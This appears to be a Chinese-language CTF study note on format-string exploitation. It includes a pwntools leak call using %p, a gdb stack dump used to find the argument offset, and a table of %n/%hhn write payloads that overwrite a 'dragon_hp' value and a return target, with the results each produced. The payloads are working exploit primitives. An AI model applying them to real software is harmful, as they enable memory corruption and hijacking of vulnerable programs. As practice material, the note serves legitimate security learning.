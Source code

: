 1. 可以一次泄露多个目标值
sla('Now answer me, will you v me 50\n','aaaaaaa,%11$p,%17$p')

2. 计算偏移值

```sh
format_level1 为例，
b*0x0x8049684 \n r, 输入3
► 0x8049684 <talk+81>     call   read@plt

gdb$ ni
输入 aaaabaaacaaadaaa

   0x8049684 <talk+81>     call   read@plt
► 0x8049689 <talk+86>     add    esp, 0x10

gdb$ stack
00:0000│   esp 0xffffd320 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数1: 格式化字符
01:0004│ 1     0xffffd324 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数2: 地址, 从这里数
02:0008│ 2     0xffffd328 ◂— 0x10
03:000c│ 3     0xffffd32c —▸ 0x8049643 (talk+16) ◂— add ebx, 0x2975
04:0010│ 4     0xffffd330 —▸ 0xf7fa4620 (_IO_2_1_stdin_) ◂— 0xfbad208b
05:0014│ 5     0xffffd334 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
06:0018│ 6     0xffffd338 —▸ 0xffffd354 —▸ 0x804bfb8 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bec0 (_DYNAMIC) ◂— 0x1
07:001c│ 7 eax 0xffffd33c ◂— 'aaaabaaacaaadaaa'               ; 为第7个
08:0020│     0xffffd340 ◂— 'baaacaaadaaa'
gdb$ fmtarg 0xffffd33c  -> 7 ("\%6$p") 也是7
```

测试值

| payload                                          | value                   | Desc                                                      |
| ------------------------------------------------ | ----------------------- | --------------------------------------------------------- |
| `b'%8$n' + p32(dragon_hp)`                       | -1                      |                                                           |
| `b'c%9$naaa' + p32(dragon_hp)`                   | 0                       | 这时栈中 第 7 个: `c%9$` 第 8 个 `naaa` 第 9 个 dragon_hp |
| `b'%128c%10$nbb' + p32(dragon_hp+3)`             | dragon_hp+3 设置为 0x80 | `bb`是填充 4 字节对齐, 用`aa`或者其他都行                 |
| `p32(dragon_hp) + b'%7\$n'`                      | 0x3                     | 正常可能是 4,前面 4 个字节                                |
| `p32(dragon_hp) + b'%15c%7\$n'`                  | 0x12 = 15+3             |                                                           |
| `b"%23p%10$hhn".ljust(12, b'a') + p32(func_ret)` |                         | func_ret 修改为 23 -> 0x17 , 用 c 和用 p 效果一样         |
